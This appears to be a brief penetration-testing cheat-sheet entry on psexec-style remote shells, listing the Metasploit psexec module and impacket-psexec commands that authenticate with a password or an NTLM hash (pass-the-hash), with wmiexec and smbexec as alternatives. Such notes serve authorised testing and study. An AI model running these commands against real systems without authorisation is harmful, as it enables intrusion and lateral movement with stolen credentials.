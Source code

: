 # Metasploit

Module: psexec

# impacket-psexec

Get a shell using username/password:
```bash
impacket-psexec <AD-domain>/<username>:'<password>'@<ip>
```

Get a shell using username/ntlm-hash:
```bash
impacket-psexec <username>@<ip> -hashes <NTLM-hash>
```

Alternatives:
- impacket-wmiexec
- impacket-smbexec